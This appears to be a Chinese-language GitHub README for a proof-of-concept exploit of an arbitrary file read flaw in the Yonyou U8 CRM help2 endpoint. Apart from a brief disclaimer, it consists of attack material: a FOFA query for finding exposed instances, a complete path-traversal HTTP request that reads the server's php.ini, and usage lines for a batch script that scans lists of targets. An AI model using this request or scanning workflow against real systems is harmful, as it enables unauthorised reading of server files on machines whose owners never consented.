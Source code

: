 # 用友U8 CRM系统help2 任意文件读取漏洞

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与作者无关。该文章仅供学习用途使用！！！



FOFA：title="用友U8CRM"

GET /pub/help2.php?key=/../../apache/php.ini HTTP/1.1 

Host:  User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0 Accept:text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 

Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3 

Accept-Encoding: gzip, deflate 

DNT: 1 

Connection: close 

Upgrade-Insecure-Requests: 1 

批量poc(记得安装库)

python poc.py -u 

python poc.py -f  .txt

结果保存至result.txt

入圈![image-20240108000010545](assets/image-20240108000010545.png)
